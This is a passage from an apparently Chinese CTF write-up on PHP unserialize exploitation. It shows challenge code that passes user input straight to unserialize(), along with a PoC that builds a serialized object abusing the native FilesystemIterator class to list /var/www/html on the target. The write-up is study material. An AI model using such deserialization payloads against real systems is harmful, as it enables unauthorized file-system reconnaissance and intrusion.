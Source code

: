```php
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
            return true;
    }
}


if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```

还是一样的，先代码审计，发现没有什么危险函数的利用，我们可以利用原生类来利用了

首先利用DirectoryIterator或FilesystemIterator类去遍历目标的Web目录：

```php
<?php
class A{
    public $class='FilesystemIterator';    
    // FilesystemIterator("/var/www/html")
    public $para="/var/www/html/";
    public $check;
    }

$poc  = new A();
echo urlencode(serialize($poc));
```

